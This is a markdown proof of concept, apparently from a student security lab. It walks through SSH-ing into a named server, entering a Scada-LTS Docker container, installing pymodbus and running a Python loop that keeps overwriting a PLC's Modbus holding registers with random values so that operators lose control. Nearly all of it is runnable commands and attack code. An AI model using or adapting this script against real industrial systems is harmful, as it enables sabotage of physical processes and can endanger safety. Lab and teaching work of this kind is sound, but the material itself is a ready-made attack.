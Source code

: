 # Change modbus registers Proof of concept vulnerability

If the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

- End result
The registers should now start being overwritten with random data. This in turn makes it so that the modbus addresses cannot be used properly since they will keep changing from value even if the operator for example wants to change them by turning on a button. 

Figure 1: Modbus registers changing address non stop.

![](img/random_modbus.png)

Figure 2: Scada enviroment visibily showing values that are not inlign with its use case.

![](img/scada_poc1.jpg)

Figure 3: In scada the values are now also seen to be changing in the dataresources tab.

![](img/scada_poc2.jpg)
